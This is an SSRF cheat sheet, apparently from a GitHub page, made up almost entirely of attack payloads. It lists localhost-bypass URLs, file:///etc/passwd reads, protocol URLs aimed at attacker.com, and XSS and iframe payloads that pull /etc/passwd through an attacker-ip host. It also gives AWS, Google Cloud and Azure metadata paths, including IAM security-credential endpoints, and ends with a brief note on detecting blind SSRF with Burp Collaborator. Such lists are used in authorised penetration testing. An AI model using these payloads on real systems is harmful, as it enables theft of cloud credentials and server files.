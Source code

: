 ##### SSRF CHEATSHEET

--------------------------------------------------------------------     
Detection:
Check out parameters such as /file=, /path=, /src= to see if the application can send request only to whitelisted applications

Check out if there is PDF or any other file export tool in place which may be vulnerable to SSRF

--------------------------------------------------------------------
__Basic localhost Payloads:__
1. http://127.0.0.1:port
2. http://localhost:port
3. https://127.0.0.1:port
4. https://localhost:port
5. http://[::]:port
6. http://0000::1:port
7. http://[0:0:0:0:0:ffff:127.0.0.1]
8. http://0/
9. http://127.1
10. http://127.0.1

--------------------------------------------------------------------
__File path:__
/etc/passwd
file:///etc/passwd
file://path/to/file
file://\/\/etc/passwd

--------------------------------------------------------------------
__With other protocols:__
sftp://attacker.com:port/
dict://attacker:port/
tftp://attacker.com:port/
ldap://localhost:port/
gopher://127.0.0.1:port/

--------------------------------------------------------------------
__From XSS:__
\<img src="xxx" onerror="document.write('\<iframe src=file:///etc/passwd>\</iframe>')"/>\
\<link rel=attachment href="file:///etc/passwd">\

--------------------------------------------------------------------
__With iframe injection:__
<?php $file = $_GET['file']; header("location:file://$file");?>
\<iframe src="http://attacker-ip/test.php?file=/etc/passwd">\</iframe>\

--------------------------------------------------------------------
__AWS:__
http://instance-data
http://169.254.169.254
http://169.254.169.254/latest/user-data
http://169.254.169.254/latest/user-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/security-credentials/[ROLE NAME]
http://169.254.169.254/latest/meta-data/iam/security-credentials/PhotonInstance
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/reservation-id
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key
http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key
http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy
http://169.254.169.254/latest/meta-data/iam/security-credentials/s3access
http://169.254.169.254/latest/dynamic/instance-identity/document

--------------------------------------------------------------------
__Google Cloud:__
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id

--------------------------------------------------------------------
Azure:
http://169.254.169.254/metadata/v1/maintenance
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text

--------------------------------------------------------------------


##### Blind SSRF vulnerabilities
````
Blind SSRF vulnerabilities arise when an application can be induced to issue a back-end HTTP request to a supplied URL,
but the response from the back-end request is not returned in the application's front-end response.
The most reliable way to detect blind SSRF vulnerabilities is using out-of-band (OAST) techniques.
This involves attempting to trigger an HTTP request to an external system that you control, and monitoring for network interactions with that system.
The easiest and most effective way to use out-of-band techniques is using Burp Collaborator. You can use the Burp Collaborator client.
Simply intercept the requied request and feed it to the intruder then copy the urp collaborator client and paste it inthe referer header
then go to your collaborator client and eatch all the DNS & HTTP requests comming in.
````
Blind SSRF can also be achieved by **SHELLSHOCK VULNERABILITY** 
